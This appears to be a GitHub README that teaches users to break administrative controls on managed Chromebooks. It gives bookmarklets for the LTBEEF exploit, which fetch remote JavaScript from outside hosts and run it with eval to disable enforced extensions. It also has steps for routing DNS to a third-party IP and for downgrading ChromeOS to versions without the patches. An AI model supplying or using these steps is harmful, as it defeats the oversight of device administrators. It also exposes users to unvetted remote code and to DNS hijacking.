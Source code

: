 # How to mod the chromebooks!
Making Chromebooks more vulnerable, one commit at a time.
Huge thanks to 3kh0 for alot of vulnerability's.
# LTBEEF
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.
Please Note: This exploit only works on versions below 106, and eariler versions of 102

The original site created for this exploit can be found at ltbeef.netlify.app

# Installation (LTBEEF)
There are several vesions of this exploit you can use, here are the 2 most common versions:

# Bookmarklets (LTBEEF)
To use a GUI, bookmark one of the below scripts:

Ingot :
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
Compact Cow's UI :
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
Compact Cow's UI (Dark) :
javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
Navigate to https://chrome.google.com/webstorex and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!

# DNS servers (LTBEEF)
By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.

First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers" image
Set every box there to the following ip:
`158.101.114.159` (Hosted by The Greatest Giant#0110)
Navigate to https://chrome.google.com/webstorex and click on that bookmark. Flip the switches on the extentions you want to disable.

# Downgrading
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.


# Requirements (DOWNGRADING)

A USB thumb drive with at least 4gb of storage, some board have small or bigger images, so have a beef usb, I recommend 16gb
A personal computer with access to downloading extentions
A brain
Setup

Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)
 2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board 3. Find and download the chrome version you want to your personal computer
# Instlation (DOWNGRADING)

Install Chromebook Recovery Utility onto your personal computer 
(found at https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en)
Open the extention, and click on the settings button in to top right hand corner, click "use local image"
Select the recovery image you downloaded from chrome100
Plug in the USB you wish to use, and follow the prompts on the screen
On your chromebook, press esc+reload+power and follow the prompts
On the checking for updates screen, press ctrl+shift+e to skip the "checking for updates" screen
Profit
